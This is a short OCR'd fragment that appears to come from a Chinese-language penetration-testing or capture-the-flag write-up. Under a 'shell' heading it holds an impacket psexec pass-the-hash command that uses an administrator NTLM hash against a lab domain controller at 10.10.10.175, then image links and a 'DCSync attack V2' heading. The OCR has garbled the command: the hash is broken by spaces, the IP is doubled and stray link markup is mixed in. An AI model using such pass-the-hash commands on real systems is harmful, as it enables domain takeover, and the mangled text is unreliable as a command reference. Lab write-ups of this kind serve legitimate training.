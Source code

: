 # 外壳

[psexec . py](http://psexec.py/)-hashes ' aad3b 435 b 51404 eeaad3b 435 b 51404 ee:d 9485863 C1 e9 e 05851 aa 40 cbb 4 ab 9 dff '-DC-IP 10 . 10 . 10 . 175[administrator @ 10 . 10 . 10 . 10 . 175](mailto:administrator@10.10.10.175)

![](img/e6fe84f2373113541b714ea465607c91.png)![](img/9e9af5c694648ec917eaa7959bc098f0.png)

# DCSync 攻击 V2
